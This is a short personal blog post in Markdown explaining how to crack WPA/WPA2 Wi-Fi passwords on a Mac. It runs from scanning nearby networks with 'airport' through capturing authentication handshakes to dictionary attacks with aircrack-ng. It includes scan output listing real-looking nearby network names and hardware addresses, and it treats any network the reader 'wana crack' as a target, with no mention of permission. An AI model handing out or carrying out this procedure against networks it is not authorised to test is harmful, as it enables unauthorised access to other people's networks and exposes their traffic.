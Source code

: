 ```yaml
---
layout: article
blogName: SunJK' Blog 
category: wifi
category_en: wifi
title: aircrack on mac
tags: icmp 
---
```

###  aircrack on mac with WPA/WPA2
1.`airmon-ng` `airodump-ng` `aireplay-ng` don't work for mac<br>
2.use `airport` on mac sniff authentication handshake<br>
3.type `airport -s` on terminal, find channel of wifi which you wana crack
<pre>
                            SSID BSSID             RSSI CHANNEL HT CC SECURITY (auth/unicast/group)
                 TP-LINK_HyFi_16 08:57:00:b8:42:16 -83  11,-1   Y  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                   ChinaNet-PjnC b4:41:7a:b8:0c:e9 -58  11      Y  -- WPA(PSK/AES,TKIP/TKIP) WPA2(PSK/AES,TKIP/TKIP) 
                       Cici_chen d0:c7:c0:1c:ac:60 -51  11,-1   Y  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                          zdcnet 6c:e8:73:3a:2f:cc -88  6,+1    Y  US WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                   TP-LINK_99999 20:dc:e6:3c:ff:6c -81  6       N  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                       littlepig 00:23:cd:15:fd:2c -89  2,+1    Y  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES) 
                        Tenda_XY c8:3a:35:4e:16:01 -64  1       Y  -- WPA(PSK/AES,TKIP/TKIP) WPA2(PSK/AES,TKIP/TKIP) 
                   ChinaNet-6ecG b4:41:7a:b6:c1:5c -68  1       Y  -- WPA(PSK/AES,TKIP/TKIP) WPA2(PSK/AES,TKIP/TKIP) 

</pre>

4.type `sudo airport en0 sniff 1` to sniff authentication handshake.<br>
5.download wifi crack dictionary , type `aircrack-ng -w wifi.txt authen.cap | grep 'handshake'`, find line which handshake count more than 0
<pre>
sunjk:wifi SunJK$ aircrack-ng -w wifi.txt a2.cap | grep 'handshake'
   1  80:71:7A:5A:C5:4C  HG532e-101                WPA (0 handshake)
   2  08:57:00:B8:73:92  TP-LINK_HyFi_16           WPA (1 handshake)
   5  D0:C7:C0:1C:AC:60  Cici_chen                 WPA (0 handshake)
   8  64:09:80:19:44:7F  DDD                       WPA (0 handshake)
</pre>
6.type `aircrack-ng -w dic.txt authen.cap` , choose `Index number of target network ` that you found. 
7.waiting for result.if you luck , you will get wifi password soon.

### External links:
_<http://www.aircrack-ng.org/doku.php?id=wpa_capture>_<br>
_<http://www.aircrack-ng.org/doku.php?id=cracking_wpa>_<br>
_<http://www.hsc.fr/ressources/articles/hakin9_wifi/hakin9_wifi_EN.pdf>_<br>

